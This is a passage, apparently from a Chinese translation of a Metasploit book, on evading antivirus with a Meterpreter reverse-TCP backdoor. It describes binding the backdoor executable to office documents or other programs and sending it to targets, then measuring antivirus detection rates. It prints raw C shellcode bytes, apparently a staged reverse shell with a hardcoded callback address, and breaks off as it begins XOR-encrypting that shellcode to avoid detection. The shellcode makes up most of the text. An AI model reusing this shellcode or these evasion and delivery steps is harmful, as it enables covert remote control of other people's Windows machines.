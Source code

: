 在前面的章节中，我们看到了如何使用 Metasploit 控制各种系统。然而，我们没有考虑到大多数操作系统上都存在防病毒解决方案这一重要问题。让我们创建一个类型为`windows/meterpreter/reverse_tcp`的后门可执行文件，如下所示：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/mtspl-bc/img/00082.jpeg)

现在我们可以将这个可执行文件与任何漏洞利用或办公文档一起放置，或者将其绑定到任何其他可执行文件并发送给运行 Windows 并在系统上运行 AVG 防病毒解决方案的目标。让我们看看当目标执行文件时会发生什么：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/mtspl-bc/img/00051.jpeg)

我们生成的文件引起了 AVG 防病毒软件的突然警报并被检测到。让我们在 majyx 扫描仪上扫描我们的`generic.exe`文件，以获取检测率的概述，如下所示：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/mtspl-bc/img/00101.jpeg)

我们可以看到 44/70 个 AV 检测到我们的文件是恶意的。这是相当令人沮丧的，因为作为执法人员，您可能只有一次机会让文件在目标系统上执行。

majyx 扫描仪可以在[`scan.majyx.net/`](http://scan.majyx.net/)上访问。

majyx 扫描仪有 35 个 AV，但有时会对每个 AV 进行两次扫描，因此会有 70 个 AV 条目。请将前面的扫描结果视为 22/35，而不是 44/70。

# 使用 shellcode 进行娱乐和利润

我们看到各种 AV 解决方案的检测率如何影响我们的任务。我们可以使用`meterpreter`的 shellcode 方法来规避 AV。我们将生成 C shellcode，自己编写后门的其余部分。让我们生成 shellcode 如下：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/mtspl-bc/img/00086.jpeg)

让我们快速看一下 shellcode，如下所示：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/mtspl-bc/img/00148.jpeg)

# 加密 shellcode

我们可以看到我们生成了 shellcode。我们将快速编写一个程序，使用`XOR`加密现有的 shellcode，如下所示：

```
#include <Windows.h>
#include <iostream>
#include <iomanip>
#include <conio.h>
unsigned char shellcode[] =
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x6a\x05\x68\x2d\x4c\x21\x35\x68\x02"
"\x00\x05\x39\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
"\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x61\x00\x00"
"\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83"
"\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a"
"\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57"
"\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x22\x58\x68\x00"
"\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68"
"\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\xe9\x71\xff\xff"
"\xff\x01\xc3\x29\xc6\x75\xc7\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00"
"\x53\xff\xd5";

```